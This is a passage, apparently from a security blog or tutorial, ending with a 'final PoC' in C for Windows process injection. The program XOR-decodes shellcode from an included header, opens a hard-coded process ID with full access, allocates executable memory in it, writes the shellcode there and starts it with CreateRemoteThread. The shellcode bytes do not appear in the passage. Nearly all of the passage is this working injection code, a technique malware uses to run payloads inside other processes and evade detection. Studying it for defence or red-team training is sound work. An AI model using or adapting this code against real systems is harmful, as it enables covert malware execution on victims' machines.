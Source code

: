I didn't talk about it earlier but **WaitForSingleObject** set to INFINITE means that the process will run indefinitely until we close it ourself.  

The final PoC (with comments removed) is shown below : 

```c
#include <windows.h>
#include <processthreadsapi.h>
#include <memoryapi.h>
#include "shellcode.h"

int main(int argc, char *argv[])
{
    HANDLE hProc = OpenProcess(
        PROCESS_ALL_ACCESS,
        FALSE,
        2468);

char key = 'S';

for (int i = 0; i < sizeof(shellcode); i++)
    {
        shellcode[i] ^= key;
    }

    LPVOID lpShellcode = VirtualAllocEx(
        hProc,
        0,
        sizeof shellcode,
        (MEM_COMMIT | MEM_RESERVE),
        PAGE_EXECUTE_READWRITE // Our RWX permissions
    );

    WriteProcessMemory(
        hProc,
        lpShellcode,
        shellcode,
        sizeof shellcode,
        NULL);

    HANDLE hRemoteThread = CreateRemoteThread(
        hProc,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)lpShellcode, // This defines the start of our shellcode
        NULL,
        0, // 0 = will run directly after creation
        NULL);

		    WaitForSingleObject(hRemoteThread, INFINITE);
			return 0;
}
```

--- 